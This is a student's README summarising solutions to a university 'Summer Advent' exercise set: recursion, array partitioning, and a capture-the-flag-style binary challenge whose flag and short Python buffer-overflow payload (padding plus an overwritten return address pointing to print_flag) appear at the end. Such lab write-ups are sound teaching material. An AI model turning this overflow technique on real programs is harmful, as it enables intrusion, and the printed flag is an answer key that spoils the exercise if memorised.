 Copyright 2022 Maria Sfiraiala (maria.sfiraiala@stud.acs.upb.ro)

# Summer Advent - Day 2

-------------------------------------------------------------------------------

## Challenge5
### a)
- We first analyse the four main cases: n = 0, 1, 2 ,3.
- We then call the function after decrementing its parameter step by step.

### b)
- We check whether the exponent is 0, if so, the recursion stops and we return.
- Otherwise, we check if the exponent is odd or even and based on this
information we either call f(a, b - 1) and multiply the result by a, or call 
f(a, b / 2) and multiply the result by itself.

-------------------------------------------------------------------------------

## Challenge6
- We read n and k in main, we'll read v in the partition function.
- In the partition function we allocate space for v and we read its values.
- We allocate space for the result.
- We iterate 2 times through v in order to partition the values correctly.

-------------------------------------------------------------------------------

## Challenge7
- NICE_FLAG{3234ca4d959ec85b440d8089ec03baa0}
- In order to reach the flag we had to get through 5 functions, for which we
sent the necessary number of bytes, required by every read().
- The sixth function had its  third parameter overwritten with the address
of the print_flag function we wanted to call.
- The exploit:
```
    import sys
    import struct

    offset = 273 + 0x152 + 0x80 + 0x77 + 0xde + 0x7e
    address = 0x080485b1

    payload = offset * b'A' + struct.pack("<I", address)
    sys.stdout.buffer.write(payload)
```